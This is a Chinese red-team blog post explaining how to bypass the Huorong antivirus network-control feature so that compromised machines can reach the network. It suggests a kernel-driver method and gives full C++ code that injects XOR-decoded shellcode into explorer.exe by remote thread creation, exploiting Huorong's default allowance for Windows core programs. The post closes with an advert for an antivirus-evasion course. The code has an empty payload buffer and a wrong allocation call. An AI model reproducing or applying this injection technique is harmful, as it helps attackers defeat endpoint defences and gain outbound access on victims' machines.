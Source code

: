 #  火绒杀毒联网控制ByPass

原创 朝歌暮酒  [ 我真不是红队啊 ](javascript:void\(0\);)

**我真不是红队啊** ![]()

微信号 yeanxinmingi

功能介绍 阳光白云蓝天与你，缺一不可

____

___发表于_

收录于合集

### 前言：

在攻防演练过程中本人多次遇到防守人员应急或者研发、运维等人员安全意识较高开启火绒联网控制在阻止目标机器出网。

### Bypass联网控制：

这里给出两种方案：

  1. 使用Driver进行Bypass

  2. 注入系统核心进程

#### 使用Driver进行Bypass

这种方案实现起来较难且兼容性不高，但核心其实就是Github中一个开源库：

> https://github.com/send010/KernelHttp

这个库可以让你在R0下便捷的发起HTTP请求。在配合我之前写过的一篇文章来加载驱动：

> http://www.pentester.top/index.php/archives/115/

#### 注入Windows核心程序进行Bypass:

我们注意到在联网控制的默认设置中会存在 **自动放行Windows核心程序** ：

![](https://gitee.com/fuli009/images/raw/master/public/20230310224839.png)

那么我们只需要去测试哪些程序被火绒认为是Windows核心程序在注入shellcode到目标程序中就可以了，代码如下：

    
          1. #include <windows.h>
    
      2. #include <tlhelp32.h>
    
      3. #include <iostream>
    
      4. using namespace std;
    
      5. void main(int argv,char** argc) {
    
      6.     PROCESSENTRY32 entry;
    
      7.     entry.dwSize = sizeof(PROCESSENTRY32);
    
      8.     HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
    
      9.     if (Process32First(snapshot, &entry) == TRUE)
    
      10.     {
    
      11.         while (Process32Next(snapshot, &entry) == TRUE)
    
      12.         {
    
      13.             if (stricmp(entry.szExeFile, "explorer.exe") == 0)
    
      14.             {
    
      15.                 HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, true, entry.th32ProcessID);
    
      16.                 if (hProcess == NULL) {
    
      17.                     cout << "[-] 进程句柄打开失败！" << endl;
    
      18.                     return;
    
      19.                 }
    
      20.                 cout << "[+] 进程句柄打开成功!" << hex << hProcess << endl;
    
      21.                 BYTE Buffer[] = {  };
    
      22.                 BYTE Buffer2[sizeof(Buffer)] = { 0 };
    
      23.                 for (int i = 0; i < sizeof(Buffer); i++) {
    
      24.                     int x = Buffer[i] ^ 0xd;
    
      25.                     Buffer2[i] = x;
    
      26.                     printf("%x,", Buffer2[i]);
    
      27.                 }
    
      28.                 LPVOID pBuf = VirtualAllocEx(NULL, NULL, sizeof(Buffer2), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    
      29.                 if (!pBuf) {
    
      30.                     cout << "[-] 内存申请失败" << endl;
    
      31.                     CloseHandle(hProcess);
    
      32.                     return;
    
      33.                 }
    
      34.                 cout << "[+] 内存申请成功，Address:" << hex << pBuf << endl;
    
      35.                 SIZE_T dwWrite = 0;
    
      36.                 if (!WriteProcessMemory(hProcess, pBuf, Buffer2, 1477, &dwWrite))
    
      37.                 {
    
      38.                     cout << "[-] 内存写入失败" << endl;
    
      39.                     CloseHandle(hProcess);
    
      40.                     return;
    
      41.                 }
    
      42.                 cout << "[+] 内存写入成功" << endl;
    
      43.                 getchar();
    
      44.                 HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, NULL,
    
      45.                     (LPTHREAD_START_ROUTINE)pBuf, NULL, 0, 0);
    
      46.                 if (!hRemoteThread) {
    
      47.                     cout << "[-] 创建远程线程失败！" << GetLastError() << endl;
    
      48.                     return;
    
      49.                 }
    
      50.                 cout << "[+] 线程ID:" << hRemoteThread << endl;
    
      51.                 WaitForSingleObject(hRemoteThread, -1);
    
      52.                 CloseHandle(hRemoteThread);
    
      53.                 CloseHandle(hProcess);
    
      54.                 VirtualFreeEx(hProcess, pBuf, 0, MEM_FREE);
    
      55.                 CloseHandle(hProcess);
    
      56.             }
    
      57.         }
    
      58.     }
    
      59.     CloseHandle(snapshot);
    
      60.    
    
      61. }
    
    
    

#### 免杀入门级课程：

 **该课程仅适合免杀入门，有基础的请不要购买**

> https://edu.csdn.net/course/detail/37761

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

